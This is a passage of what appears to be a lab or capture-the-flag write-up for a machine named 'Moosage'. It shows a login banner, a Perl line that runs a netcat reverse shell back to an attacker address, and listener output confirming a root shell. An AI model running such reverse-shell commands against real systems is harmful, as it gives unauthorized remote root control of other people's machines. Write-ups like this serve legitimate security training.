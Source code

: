 ```bash
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent

permitted by applicable law.

Last login: Tue Oct 14 03:03:30 2025 from 10.105.30.142

baca@moosage:~$

```

## Root shell


### Now I have a root shell. The reverse shell connected and returned `uid=0(root)`, so I'm running as root — that's it.

### Reverse Shell

```perl
exec "nc -e /bin/bash 10.105.30.142 9001";
```

<img src="/assets/img/Moosage/4.png" alt="image-20250616220926337" />


```bash
❯ nc -lvnp 9001

Listening on 0.0.0.0 9001

Connection received on 10.105.30.3 41814

id

uid=0(root) gid=0(root) groups=0(root)

that's it

```
